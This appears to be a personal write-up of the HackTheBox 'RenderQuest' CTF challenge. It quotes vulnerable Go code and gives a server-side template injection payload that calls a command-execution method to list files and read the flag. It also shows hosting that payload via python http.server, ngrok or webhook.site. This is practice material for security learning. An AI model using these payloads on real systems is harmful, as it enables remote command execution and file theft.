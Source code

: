 
2024-10-02 23:16

Source: #web #htb 

Tags: [[SSTI]]
## Reconnaissance

We notice the `go` source code that seems to execute code from remote templates.

```go
	if remote == "true" {
			tmplFile, err = readRemoteFile(page)
	
			if err != nil {
				http.Error(w, "Internal Server Error", http.StatusInternalServerError)
				return
			}
		} else {
165			tmplFile, err = readFile(TEMPLATE_DIR+"/"+page, "./")
	
			if err != nil {
				http.Error(w, "Internal Server Error", http.StatusInternalServerError)
				return
			}
		}
	
180		tmpl, err := template.New("page").Parse(tmplFile)
		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	
		err = tmpl.Execute(w, reqData)
		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
```
The function `readRemoteFile` allows the application to fetch a remote resource 
**Notice how this function does not do any sort of sanitization and simply fetches & returns the contents of the remote page**

On **line 180** a new template is generated and displayed using the contents of `tmplFile`, which we control through the `page`query parameter. This essentially exposes the application to **SSTI** because we could host a harmful file for the application to fetch and render.

We also notice that there is a method that executes system commands.

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```
## Foothold

We can create a template file that executes commands on the server by using go templating code.

> To identify that the backend is using the Go template engine, you can utilize the following payloads:
> 
> - `{{ . }}`: Represents the data structure passed as input to the template.
>     - If the passed data is an object with an attribute, you can use `{{ .Attribute_name_here }}` to leak it.
> - `{{ printf "%s" "printing text" }}`: you can also call print or other methods.
> 
> [(source)](https://www.onsecurity.io/blog/go-ssti-method-research/)

In this case, we can call the method that allows us to execute commands on the server via `{{.FetchServerInfo "command_here"}}`.

First, we need to create a template file that we will serve by setting up our server.
```shell
$ cat exploit.tpl 
{{.FetchServerInfo "ls -lah"}}
```
We set up server in the directory where the template file is located.
``` shell
$ python3 -m http.server 80
```

And set up `ngrok` for outside access as we are not connected through a vpn.
``` shell
$ ngrok http http://localhost:80
```
get the [[ngork]] URL and append our file name to it and add it in the input field of the website 

## Alternate 

instead of using ngork to create the URL we could also use the website https://webhook.site/#!/
click `Edit` on the right hand side of the top ribbon 
change the content to `{{.FetchServerInfo "cat ../flag154d8430d7.txt"}}` and hit save
click `copy` which to the left of `Edit` and click `URL` 
then add this URL in the victim website 

### References
https://app.hackthebox.com/challenges/RenderQuest

walkthrough - 
https://vulnerable.sh/posts/htb_renderquest/
https://henri-demanou.medium.com/htb-renderquest-3fa19d67f58d
https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83 - (uses` webhook.site`)
https://exploit-notes.hdks.org/exploit/web/go-ssti/?source=post_page-----3fa19d67f58d--------------------------------